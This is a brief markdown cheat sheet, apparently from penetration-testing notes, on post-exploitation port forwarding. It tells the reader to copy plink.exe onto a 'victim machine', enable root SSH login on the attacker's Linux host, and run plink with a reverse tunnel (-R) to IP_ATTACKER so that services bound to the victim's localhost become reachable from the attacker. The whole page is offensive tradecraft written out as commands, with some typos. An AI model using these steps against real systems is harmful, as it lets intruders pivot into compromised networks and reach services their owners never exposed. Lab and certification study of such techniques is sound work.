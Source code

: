 # Port Forwarding

* Download plink.exe -> https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
* Transfer plink to the victim machine
* apt install ssh -> On linuc
* Edit /etc/ssh/sshd_config, change #PermiRootLogin prohibit-password to PermiRootLogin yes
* ssh service restart
* ssh service start
[+] On the windows victim machine
* plink.exe -l root -pw YOUR_ROOT_PASSWORD -R PORT:127.0.0.1:PORT IP_ATTACKER
If you have troubles uncomment the Port 22 and change for Port 8888 on file /etc/ssh/sshd_config
* plink.exe -l root -pw YOUR_ROOT_PASSWORD -P 8888 -R PORT:127.0.0.1:PORT IP_ATTACKER
* y

* netstat -ano (You could try also on your own machine)
[!] TRY TO USE THE ENTER KEY A COUPLE OF TIMES IN CASE YOU DON'T SEE NOTHING
